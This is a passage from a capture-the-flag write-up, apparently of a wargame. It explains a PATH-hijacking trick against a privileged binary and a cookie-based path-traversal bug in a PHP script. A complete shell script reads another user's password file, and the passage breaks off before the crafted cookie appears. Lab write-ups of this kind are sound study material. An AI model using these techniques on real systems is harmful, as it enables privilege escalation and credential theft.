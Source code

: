 It's clear that if we manage to change the variable ```date``` to some controlled exploit (such as ```cat /home/level01/.password```) we  get the program to print the password.

Third,  ```system``` outputs the date using a **relative path** for the **PATH**.  We just need to change that to the directory where we keep our exploit (*e.g.*, ```pwd```) to have the system *forget* about the original date function.

 The final script that leads to the next level's password looks like this:

```
#!/bin/sh
cd /tmp
echo '/bin/cat /home/level01/.password > date'
chmod +x date
export PATH=`pwd`:$PATH
/levels/level01/level01
```

---
## Level 2: Client's Cookies

This level is about finding a vulnerability in a PHP script  that  greets the user with her/his saved data.

The program implements this functionality by setting a cookie that saves the user's username and age. In future visits to the page, the program is then able to print  *You’re NAME, and your age is AGE*.

Inspecting closely the code we see that the client's cookie is read without sanitizing its content:

```
<?php
    $out = '';
    if (!isset($_COOKIE['user_details'])) {
      setcookie('user_details', $filename);
    }
    else {
      $out = file_get_contents('/tmp/level02/'.$_COOKIE['user_details']);
    }
?>
```
And then the results of this read is printed:
```
<html>
	<p><?php echo $out ?></p>
</html>
```

An obvious way to exploit this vulnerability is by building our own [request](http://www.w3.org/Protocols/rfc2616/rfc2616-sec5.html) that makes the program read the password at */home/level02/.password*.

The cookie is set in the client side so we have lots of freedom to exploit it. For instance, we could use [Burp Suite](http://portswigger.net/burp/) to intercept the request and add the crafted cookie header. We could also use [Chrome Webinspector](https://chrome.google.com/webstore/detail/web-inspector/enibedkmbpadhfofcgjcphipflcbpelf?hl=en) to  copy the [Authorization header](http://en.wikipedia.org/wiki/Basic_access_authentication) for the same purpose. The Cookie header would look like:
